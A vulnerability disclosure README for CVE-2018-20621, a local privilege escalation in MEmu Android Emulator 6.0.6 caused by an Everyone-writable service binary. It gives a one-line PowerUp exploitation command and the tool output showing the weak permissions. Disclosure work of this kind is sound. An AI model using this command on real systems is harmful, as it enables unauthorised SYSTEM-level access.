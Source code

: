 # CVE-2018-20621: MEmu Android Emulator Local Privilege Escalation

<!---
Remember to end each line under the "Information" header with 2 space characters ("  ") to tell Markdown to break the line.
--->
## Information
**Description:** The MemuService.exe service binary is vulnerable to local privilege escalation.    
**Versions Affected:** 6.0.6  
**Researcher:** David Yesland (https://twitter.com/daveysec @daveysec)  
**Disclosure Link:** NA  
**NIST CVE Link:** NA

## Proof-of-Concept Exploit
### Description
The MemuService.exe service binary is vulnerable to local privilege escalation through binary planting due to insecure permissions set at install time. This allows code to be run as NT AUTHORITY/SYSTEM.


### Usage/Exploitation
Using PowerShellEmpire PowerUp `Install-ServiceBinary -Name 'MEmuSVC'`  

### Detail
```
ServiceName                     : MEmuSVC
Path                            : C:\Program Files\Microvirt\MEmu\MemuService.exe
ModifiableFile                  : C:\Program Files\Microvirt\MEmu\MemuService.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'MEmuSVC'
CanRestart                      : False
```